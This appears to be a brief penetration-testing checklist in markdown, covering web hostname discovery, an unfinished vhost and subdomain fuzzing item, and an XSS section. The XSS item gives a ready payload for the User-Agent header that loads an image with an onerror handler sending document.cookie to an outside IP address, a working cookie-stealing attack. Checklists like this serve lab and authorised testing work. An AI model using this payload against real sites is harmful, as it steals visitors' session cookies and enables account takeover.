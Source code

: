 # Web
- [ ] Find the hostname for example: `something.local`
- [ ] Fuzz the `vhost` and `subdomain` for the hostname: `

## XSS
- [ ] User-Agent (other fields as well): `<img src=x onerror=fetch('http://10.10.16.19/'+document.cookie);>`
